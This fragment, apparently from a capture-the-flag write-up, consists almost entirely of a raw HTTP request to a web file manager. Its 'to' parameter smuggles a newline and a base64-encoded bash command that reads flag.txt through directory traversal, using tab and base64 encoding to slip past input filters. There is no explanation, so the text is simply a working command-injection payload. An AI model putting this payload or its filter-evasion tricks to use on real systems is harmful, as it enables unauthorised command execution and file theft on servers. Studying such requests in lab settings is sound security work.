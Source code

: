 

```json
GET /index.php?to=%0abash<<<$(base64%09-d<<<Y2F0IC4uLy4uLy4uLy4uLy4uLy4uL2ZsYWcudHh0Cg==)&from=flag.txt&finish=1&move=1 HTTP/1.1
Host: 94.237.59.199:50897
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.59.199:50897/index.php?to=tmp&from=696212415.txt
Connection: close
Cookie: filemanager=413jdmrsi4s22ol9hnbvs9etms
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```


